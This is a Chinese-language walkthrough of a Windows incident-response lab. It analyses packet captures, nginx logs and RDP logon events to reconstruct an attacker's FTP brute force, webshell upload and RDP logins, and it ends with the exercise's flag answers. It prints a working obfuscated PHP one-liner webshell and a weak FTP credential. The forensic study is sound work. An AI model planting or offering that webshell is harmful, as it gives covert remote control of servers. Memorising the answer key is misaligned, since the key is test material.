

# Windows应急-应急与研判训练计划 

```
任务环境说明
    这是某单位正常运行的主机，但由于安全防范意识不到位，导致系统被攻击。目前已知攻击者成功接管了系统。
    需要通过上机排查，利用开放的服务快速识别攻击者的操作、最终攻击成功的方法以及接管成功的IP。相关工具和全程流量数据已放置在桌面中。
    1. 你需要根据环境内的所有工具和文件，附件等，根据应急响应形式快速排查出攻击者的所有行为
    2. 你需要排查出攻击者最后利用成功的漏洞以及利用成功IP进行整理
    3. 你需要自己按照攻击者思路写一份攻击者大概的攻击思路或攻击流程图
    4. 你可以借助一切工具，你可以把它当作实战，这里没有任何约束条件
```


```
请找出攻击者攻击成功的端口，如多个端口，则从小到大{x,x,x,}
请找出攻击者上传的恶意文件名
请找出攻击者最终攻击成功的端口
请找出攻击者最终攻击成功端口的IP
请找出攻击者最后接管服务器的IP
```


桌面存在wireshark流量，保存到本地

打开phpstudy，查看日志文件，apache日志为空，nginx中存在日志记录，将access.log保存到本地

将事件日志保存到本地


首先查看wireshark流量

统计会话


其中192.168.18.133向192.168.18.151发送了大量数据，初步推测攻击者为192.168.18.133，服务器为192.168.18.151

选中一个流量包，确认攻击时间：2024.12.25 


筛选

```
ip.src==192.168.18.133 && ip.dst==192.168.18.151
```


端口扫描


攻击21端口


查看会话

主要对四个端口发送了大量流量，如21，80，3389，8080


逐个分析

21端口

```
ip.src==192.168.18.133  && ip.dst==192.168.18.151 && tcp.dstport==21
```


攻击者先尝试爆破ftp服务

最终通过

```
admin:password
```


成功登录ftp服务，最终得到了一个文件


到处FTP-DATA文件


然后80端口


大量404，并未成功利用


8080


攻击者利用/dede/a/newfile1.php尝试执行phpinfo()

追踪该流




执行失败


推测该文件为木马，找到该文件


< php7.1可用的一句话免杀马，密码为1

```
<?  @("Y;HJ(Z"^"8H;/Z.")(${"~?}$"^"!x8p"}[1]);
```


查看access.log日志，并过滤ip

```
cat access.log | awk '{print $1}' | sort -nr | uniq -c
```


其中192.168.18.133存在大量访问

提取ip行为

```
cat access.log | grep 192.168.18.133  > ra1n3.txt
```


3389，查看事件日志

筛选日志ID：4624

保存到本地并过滤源网络地址

```
cat 1.txt |grep 源网络地址: | sort -nr | uniq -c
```


两个登录成功的ip：192.168.18.133和192.168.18.1


请找出攻击者攻击成功的端口，如多个端口，则从小到大{x,x,x,}

21端口，攻击者通过爆破ftp服务，成功登录，并获取到了一个txt文件

80端口，攻击者只是进行了目录扫描，并未造成实质性的破坏

3389端口，192.168.18.133和192.168.18.1成功通过用户凭证登录RDP服务

8080端口，攻击者上传了newfile1.php木马文件，但是尝试执行phpinfo失败

```
flag{21,3389,8080}
```


请找出攻击者上传的恶意文件名

```
flag{newfile1.php}
```


请找出攻击者最终攻击成功的端口

攻击者通过用户凭证成功登录RDP服务

```
flag{3389}
```


请找出攻击者最终攻击成功端口的IP

RDP服务共两个IP成功登录

192.168.18.133和192.168.18.1

则

```
flag{192.168.18.133}
```


请找出攻击者最后接管服务器的IP

```
flag{192.168.18.1}
```

